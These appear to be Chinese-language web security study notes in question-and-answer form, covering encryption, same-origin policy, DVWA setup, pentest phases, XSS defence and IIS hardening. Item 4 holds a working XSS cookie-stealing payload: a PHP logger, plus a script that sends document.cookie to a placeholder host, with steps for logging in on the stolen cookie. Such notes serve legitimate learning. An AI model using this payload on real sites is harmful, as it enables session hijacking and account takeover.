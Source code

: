 1、对称加密 非对称加密？
对称加密：加解密用同一密钥，密钥维护复杂 n（n-1）/2，不适合互联网传输密钥，加解密效率高。应用于加密数据。
非对称加密：公钥推不出私钥，每个用户一个非对称密钥对就可以，适合于互联网传输公钥，但是加密效率低，应用于数字签名及加密。

2、什么是同源策略？
为了防止不同域在用户浏览器中彼此干扰，浏览器对从不同来源（域）收到的内容进行隔离。
浏览器不允许任何旧有脚本访问一个站点的cookie，否则，会话容易被劫持。

3、cookie存在哪里？可以打开吗
C:\Users\用户名\AppData\Roaming\Microsoft\Windows\Cookies
工具--文件夹选项--查看--将隐藏被保护的文件的对勾去掉就会看到cookies文件夹。

4、攻击者代码：

<?php
$cookie=$_GET['cookie'];
$time=date('Y-m-d g:i:s');
$referer=getenv('HTTP_REFERER');
$cookietxt=fopen('cookie.txt','a');
fwrite($cookietxt,"time:".$time." cookie:".$cookie." referer:".$referer.""); 注意双引号，容易出错
fclose($cookietxt);
?>
脚本端：

<script>
document.write('<img src="http://ip/cookie.php?cookie='+document.cookie+'" width=0 height=0 border=0 />');
</script>
获取到cookie后，用firebug找到cookie，新建cookie
加入cookie，用referer来提交，无需输入帐号密码直接登录进去！

6、证书要考哪些？
信息安全国际第一认证——CISSP
信息安全国内认证——CISAW
信息安全国内认证——CISP
信息安全技术实操认证新贵——Security+
IT审计人员的必备之证——CISA

7、DVWA是如何搭建的？

启动xampp（XAMPP（Apache+MySQL+PHP+PERL）是一个功能强大的建站集成软件包。）下的apache中间件和mysql
将dvwa放到xampp下的htdocs目录下
在浏览器输入http://127.0.0.1/dvwa 即可使用啦！
还有owasp的漏洞练习平台：https://sourceforge.net/projects/owaspbwa/files/

8、渗透测试的流程是什么
渗透测试流程概述
前期交互阶段、情报搜集阶段、威胁建模阶段、漏洞分析阶段、
渗透攻击阶段（Exploitation）、后渗透攻击阶段（怎么一直控制，维持访问）、报告阶段。
攻击前：网络踩点、网络扫描、网络查点
攻击中：利用漏洞信息进行渗透攻击、获取权限
攻击后：后渗透维持攻击、文件拷贝、木马植入、痕迹擦除

9、xss如何防御

1.对前端输入做过滤和编码：
比如只允许输入指定类型的字符，比如电话号格式，注册用户名限制等，输入检查需要在服务器端完成，在前端完成的限制是容易绕过的；
对特殊字符进行过滤和转义；
2.对输出做过滤和编码：在变量值输出到前端的HTML时进行编码和转义；
3.给关键cookie使用http-only

10、IIS服务器应该做哪些方面的保护措施：
    1. 保持Windows升级:
    2 . 使用IIS防范工具
    3. 移除缺省的Web站点
    4. 如果你并不需要FTP和SMTP服务，请卸载它们
    5. 有规则地检查你的管理员组和服务:
    6. 严格控制服务器的写访问权限
    7. 设置复杂的密码
    8. 减少/排除Web服务器上的共享
    9. 禁用TCP/IP协议中的NetBIOS:
    10. 使用TCP端口阻塞
    11. 仔细检查*.bat和*.exe 文件: 每周搜索一次*.bat
    12. 管理IIS目录安全:
    13. 使用NTFS安全:
    14. 管理用户账户
    15. 审计你的Web服务器:

11、虚拟机的几种连接方式及原理
   VMware网络连接的方式主要有：
   桥接（Bridged）【使用VMnet0虚拟交换机，此时虚拟机相当与网络上的一台独立计算机与主机一样，拥有一个独立的IP地址】、
   NAT【使用Vmnet8虚拟交换机，此时虚拟机可以通过主机单向网络上的其他工作站，其他工作站不能访问虚拟机。】、
  主机网络（Host-Only）【用Vmnet1虚拟交换机，此时虚拟机只能与虚拟机、主机互访。也就是不能上Internet】。

12、xss有cookie一定可以无用户名密码登录吗？
基本可以。因为把cookie的值给浏览器，浏览器去访问页面会用已有的cookie去访问，如果cookie有效，就会直接进去。
